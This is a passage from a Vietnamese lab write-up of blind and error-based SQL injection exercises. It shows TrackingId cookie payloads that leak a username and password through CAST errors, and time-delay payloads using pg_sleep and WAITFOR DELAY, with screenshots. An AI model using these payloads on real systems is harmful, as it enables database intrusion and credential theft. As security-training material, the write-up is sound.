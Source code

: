 4) Sửa điều kiện cho đúng bằng cách thêm toán tử so sánh =
```
    TrackingId=vKj3VnZ6ctQznt4S' AND 1=CAST((SELECT 1) AS int)--
```
<img width="1484" height="785" alt="image" src="https://github.com/user-attachments/assets/963b9c6d-7fee-49fe-8cf1-ebd2a5469cf3" />
>  Không còn lỗi nữa ⇒ query hợp lệ.
5) Thay đổi SELECT để lấy dữ liệu username từ CSDL:
<img width="1490" height="710" alt="image" src="https://github.com/user-attachments/assets/3d7318ad-6500-4b5e-9980-64e7993c4839" />
> xuất hiện lại lỗi ban đầu. Payload có vẻ bị cắt ngắn do giới hạn ký tự, nên phần comment -- không còn.

6) Xoá giá trị gốc của cookie TrackingId để tiết kiệm ký tự. 
<img width="1499" height="646" alt="image" src="https://github.com/user-attachments/assets/ec1849f9-1eb8-4b53-8b3c-7a7218f57b69" />

 > subquery (SELECT username FROM users) trả về nhiều dòng → Database không biết chọn cái nào để so sánh → báo lỗi.
7) Sửa query để chỉ trả về 1 dòng:
  ```
    TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
  ```
<img width="1490" height="624" alt="image" src="https://github.com/user-attachments/assets/b520b8b4-8320-4ec3-a249-7dfbcac43dec" />
> Lộ ra usrname đầu tiên trong bảng là administrator
vaf sửa lại query để lộ mật khẩu
  ```
    TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
  ```
<img width="1477" height="667" alt="image" src="https://github.com/user-attachments/assets/7df612e7-42e1-40b4-a7fd-83e39d253870" />
> Lộ mật khẩu của usr đầu tiên là 4exxf0il4jack4c09fz3
- Sau khi có usr và pwd thì đăng nhập thành công
<img width="1851" height="778" alt="image" src="https://github.com/user-attachments/assets/ed04b516-cd38-478c-8acd-e2e1043d1f6a" />

- **Khai thác blind SQL injection bằng cách kích hoạt độ trễ (Time Delay)**
  ```
  '; IF (1=2) WAITFOR DELAY '0:0:10'--
  '; IF (1=1) WAITFOR DELAY '0:0:10'--
  ```
**Lab: Blind SQL injection with time delays**
```
  TrackingId=uIN3uMisJH9698Nb'||pg_sleep(10)--
```
<img width="1499" height="804" alt="image" src="https://github.com/user-attachments/assets/dab7ed34-173a-4690-a3fe-45793e34df24" />

+ || là toán tử nối chuỗi trong PostgreSQL.
+ pg_sleep(10) làm database ngủ 10 giây.
> Truy vấn chạy bình thường nhưng server delay đúng 10 giây.

**Lab: Blind SQL injection with time delays and information retrieval**
- Kiểm tra điều kiện
  ```
  TrackingId=0gJOuXb4yHVsqFqy'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--;
  ```
<img width="1486" height="663" alt="image" src="https://github.com/user-attachments/assets/ebc7fef5-ef33-4dfd-9ac2-b73355bfc78e" />
+ Điều kiện CASE WHEN (1=1) → luôn đúng → database sẽ ngủ 10 giây.
+ Server phản hồi chậm 10 giây → chứng minh SQL Injection tồn tại.
  